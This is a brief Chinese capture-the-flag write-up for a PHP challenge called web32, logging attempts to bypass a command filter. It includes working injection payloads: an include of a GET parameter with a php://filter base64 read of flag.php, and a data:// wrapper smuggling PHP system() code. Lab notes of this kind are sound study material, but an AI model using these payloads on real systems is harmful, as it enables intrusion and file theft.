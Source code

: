 # web32
![](vx_images/541942611264741.png)
反引号被过滤,
还是尝试passthru
?c=passthru("tac\${IFS}f*")
不行
这里需要用include文件包含
c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php

![](vx_images/91124672056364.png)
试一下data协议写码
?c=include$_GET[1]?>&1=data://text/plain,<?php system("tac flag.php");?>
